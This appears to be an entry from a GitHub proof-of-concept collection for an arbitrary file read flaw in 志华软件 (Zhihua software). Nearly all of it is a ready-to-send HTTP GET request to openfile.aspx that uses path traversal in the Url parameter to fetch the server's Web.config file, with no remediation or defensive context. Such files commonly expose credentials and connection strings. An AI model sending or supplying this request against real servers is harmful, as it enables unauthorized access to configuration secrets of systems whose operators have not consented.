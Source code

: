 # zhihua_openfile_fileread

product: 志华软件
```
GET /oa/isprit/module/openfile.aspx?Url=..\..\..\Web.config HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: ASP.NET_SessionId=vu5fjewt125x2erxrujcfj4p
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
```

from: https://github.com/wy876/POC/blob/main/%E5%BF%97%E5%8D%8E%E8%BD%AF%E4%BB%B6/%E5%BF%97%E5%8D%8E%E8%BD%AF%E4%BB%B6openfile.aspx%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
